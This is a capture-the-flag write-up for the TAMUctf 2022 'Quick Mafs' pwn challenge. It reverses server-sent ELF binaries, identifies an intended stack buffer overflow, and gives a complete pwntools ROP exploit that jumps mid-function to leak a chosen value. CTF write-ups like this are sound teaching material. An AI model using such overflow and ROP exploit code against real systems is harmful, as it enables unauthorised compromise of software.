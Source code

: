 ## Quick Mafs

was an pwn challenge from TAMUctf 2022.

It's a type of challenge that is called automatic exploit generator, a mix of coding and pwning challenge.

A server where we connect send us a serie of elf binaries, (as hexadecimal dump).

We have to quickly analyze them and exploit them. That's a classic type of challenge.

so how to start..?

well we will first download some of the binaries sent by the server, save them, and analyze them.

Let's see by how much they vary, and reverse them.

In the case of this challenge the authour told us there is a print function function to call, and each time indicate us a value to put in `eax` before calling print.

That's the condition to achieve for each binaries, and there will be five of them.

let's reverse somes of the provided binaries, there is the `vuln()` function:

![](https://github.com/nobodyisnobody/write-ups/raw/main/TamuCTF.2022/pwn/Quick.Mafs/pics/reverse1.png)

you can see in the vuln function,

that there is an intended buffer overflow of 0x2000 bytes, read directly at `rsp` address.

where we will put our ROP payload.

now let's have a look at `print()` function:

![](https://github.com/nobodyisnobody/write-ups/raw/main/TamuCTF.2022/pwn/Quick.Mafs/pics/reverse2.png)

we can see in the print function that the `eax` value is saved on stack,

then it's two first lsb (16bit value so), are written to stdout as a raw 16 bit value..

then the program exits..

The problem is that there are no simple gadget to set `eax` to the desired value..

instead, each binaries provided by the servers, included hundreds or arithmetical gadgets, based on `ax`, and the various values pointed by `rbx` register

The intended solution seems to be to use a sort of solver like z3, or angr eventually, to set `eax` to the given values,

by using theses arithmetic gadgets...

That's probably possible, z3 can do "miracles",  but is too much complicated...

so instead of this we will use a serie of gadgets 

so set first `rdx` to 2,  to output the 2 bytes containing the required value, but without passing via the `eax` register.

we will put the given value to be returned , at the end of our payload (on stack so),

then we will jump in the middle of the `print()` function, precisely at the address `0x40179b`

![](https://github.com/nobodyisnobody/write-ups/raw/main/TamuCTF.2022/pwn/Quick.Mafs/pics/gadget.png)

like this, we will output directly the 2 last bytes to stdout...as required...

so here is the exploit


```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*
from pwn import *
import binascii

context.update(arch="amd64", os="linux")
context.log_level = 'info'

p = remote("tamuctf.com", 443, ssl=True, sni="quick-mafs")

for binary in range(5):
  p.recvuntil('rax = ',drop=True)
  rax = int(p.recvuntil('\n',drop=True),16)
#  instructions = p.recvline() # the server will give you instructions as to what your exploit should do
#  print(instructions)
  temp = p.recvuntil('\n',drop=True)
  elf = binascii.unhexlify(temp)
  with open("elf", "wb") as file:
    file.write(elf)

  exe = ELF('./elf')

  gadget3 = 0x000000000040122c # pop rdx ; add byte ptr [rsi + 0x2b], etc...

  # we will use this code as a gadget indeed
  '''
   0x000000000040179b <+12>:    mov    rsi,rsp
   0x000000000040179e <+15>:    mov    rdi,0x1
   0x00000000004017a5 <+22>:    mov    rax,0x1
   0x00000000004017ac <+29>:    syscall
   0x00000000004017ae <+31>:    mov    rdi,0x0
   0x00000000004017b5 <+38>:    mov    rax,0x3c
   0x00000000004017bc <+45>:    syscall
   0x00000000004017be <+47>:    nop
   0x00000000004017bf <+48>:    pop    rbp
   0x00000000004017c0 <+49>:    ret
  '''
  # set rdx = 2
  prelude = p64(0xdeadbeef)+p64(gadget3)+p64(2)
  prelude += p64(0x000000000040179b)
  # convert payload to hexa string and wanted value
  payload = binascii.hexlify(prelude + p16(rax))
  p.sendline(payload)
p.interactive()
```

*nobodyisnobody still pwning things...*
